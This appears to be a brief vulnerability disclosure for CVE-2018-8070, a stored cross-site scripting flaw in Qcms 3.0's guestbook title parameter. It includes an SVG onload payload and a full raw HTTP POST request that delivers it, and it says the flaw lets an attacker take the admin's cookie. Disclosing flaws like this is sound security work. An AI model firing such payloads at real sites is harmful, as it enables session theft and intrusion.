 # Qcms version 3.0 has xss via the title parameter to the /guest/index.html URI	

**CVE-2018-8070**

set xss payload `<svg/onload=alert(0)>` to the title parameter in `/guest/index.html`,when admin user confirm this feedback in admin page there is alert box,attacker can get admin's cookie.
![](2.png)


	POST /guest/index.html HTTP/1.1
	Host: localhost
	Content-Length: 92
	Cache-Control: max-age=0
	Origin: http://localhost
	Upgrade-Insecure-Requests: 1
	Content-Type: application/x-www-form-urlencoded
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
	DNT: 1
	Referer: http://localhost/guest/index.html
	Accept-Language: zh-CN,zh;q=0.9
	Cookie: SESS49960de5880e8c687434170f6476605b=KyZyx79ethBmvgssXcM6DUdjHnnYxkfiw-86SorC64c; ly_main_nav_limit=15; lang=zh-cn; theme=default; bdshare_firstime=1519799317252; 
	Connection: close
	
	title=%3Csvg%2Fonload%3Dalert%28%27qcms%27%29%3E&name=test&email=test%40test.t&content=test

![](1.png)

